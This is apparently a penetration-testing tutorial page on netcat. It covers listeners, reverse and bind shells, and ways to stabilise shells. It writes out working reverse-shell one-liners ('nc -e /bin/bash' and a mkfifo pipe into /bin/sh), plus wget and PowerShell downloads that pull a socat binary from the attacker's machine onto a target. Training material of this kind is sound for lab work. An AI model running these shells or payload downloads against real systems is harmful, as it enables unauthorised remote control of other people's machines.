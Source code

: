 # Netcat

### Introduction

Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques

***

### Reverse Shells

The syntax for starting a netcat listener using Linux is this: `nc -lvnp <port-number>`

* \-l is used to tell netcat that this will be a listener
* \-v is used to request a verbose output
* \-n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
* \-p indicates that the port specification will follow.

We can then connect back to this with any number of payloads, depending on the environment on the target. Like on Target Machine `nc <LOCAL-IP> <PORT> -e /bin/bash`

***

### Bind Shells

If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. The syntax for this is relatively straight forward: `nc <target-ip> <chosen-port>`

***

### **Shell Stabalization**

These shells are very unstable by default. Pressing Ctrl + C kills the whole thing.

They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running inside a terminal, rather than being bonafide terminals in their own right.

Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.

With any of the below techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

* First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns
* Next, in your reverse/bind shell, type in:
  * `stty rows <number>`
  * `stty cols <number>`
* Filling in the numbers you got from running the command in your own terminal.
* This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

#### Technique 1 (Python)

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as clear.
3. Finally (and most importantly) we will background the shell using `Ctrl + Z`. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

#### Technique 2 (rlwrap)

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>`

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

#### Technique 3 (Socat)

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`).

***

### **Other Linux Listener Methods**

#### Bind Shell

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

#### Reverse Shell

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

The commands first creates a named pipe at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.
